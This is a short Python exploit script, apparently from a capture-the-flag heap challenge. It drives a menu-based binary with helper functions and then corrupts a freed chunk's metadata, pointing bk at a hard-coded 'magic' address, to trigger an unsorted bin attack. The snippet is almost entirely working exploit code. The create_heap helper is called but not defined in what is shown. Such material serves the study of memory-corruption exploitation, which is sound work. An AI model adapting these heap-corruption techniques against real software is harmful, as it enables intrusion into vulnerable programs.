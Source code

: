 ```Python



def edit_heap(idx, size, content):

    r.recvuntil(":")

    r.sendline("2")

    r.recvuntil(":")

    r.sendline(str(idx))

    r.recvuntil(":")

    r.sendline(str(size))

    r.recvuntil(":")

    r.sendline(content)





def del_heap(idx):

    r.recvuntil(":")

    r.sendline("3")

    r.recvuntil(":")

    r.sendline(str(idx))





create_heap(0x20, "dada")  # 0

create_heap(0x80, "dada")  # 1

# in order not to merge into top chunk

create_heap(0x20, "dada")  # 2



del_heap (1)


magic = 0x6020c0

fd = 0
bk = magic - 0x10



edit_heap(0, 0x20 + 0x20, "a" * 0x20 + p64(0) + p64(0x91) + p64(fd) + p64(bk))

create_heap(0x80, "dada")  #trigger unsorted bin attack

```